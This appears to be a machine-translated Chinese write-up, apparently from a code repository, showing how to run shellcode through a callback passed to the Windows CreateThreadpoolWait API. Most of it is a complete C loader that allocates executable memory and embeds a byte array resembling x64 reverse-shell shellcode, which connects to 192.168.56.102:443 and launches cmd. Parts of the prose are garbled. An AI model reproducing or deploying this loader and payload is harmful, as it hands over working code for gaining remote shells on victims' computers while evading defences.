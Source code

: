这是一个探索 API 序列的快速实验，它可以通过调用传递给 的回调函数来执行 shellcode `CreateThreadpoolWait`。

`CreateEvent`用于创建具有`Signaled`状态的事件对象,为 shellcode 分配 RWX 内存，`VirtualAlloc`并将 shellcode 写入其中,`CreateThreadpoolWait`用于创建等待对象。该函数的第一个参数是一个回调函数，一旦等待结束就会调用该函数（在我们的例子中立即调用，因为我们的可等待事件`Signaled`从一开始就处于状态）。

我们将传递 shellcode 的地址（在步骤 2 中分配）作为回调函数`SetThreadpoolWait`用于将等待对象设置为步骤3中创建的等待对象

`WaitForSingleObject`用于等待可等待对象变为`Signaled`，但由于我们的事件（可等待）对象是`Signaled`在步骤 1 中使用状态创建的，因此调用步骤 3 中指定的回调函数并立即执行 shellcode：

```c
#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main()
{
	HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
	LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));

	PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
	SetThreadpoolWait(threadPoolWait, event, NULL);
	WaitForSingleObject(event, INFINITE);
	
	return 0;
}
```
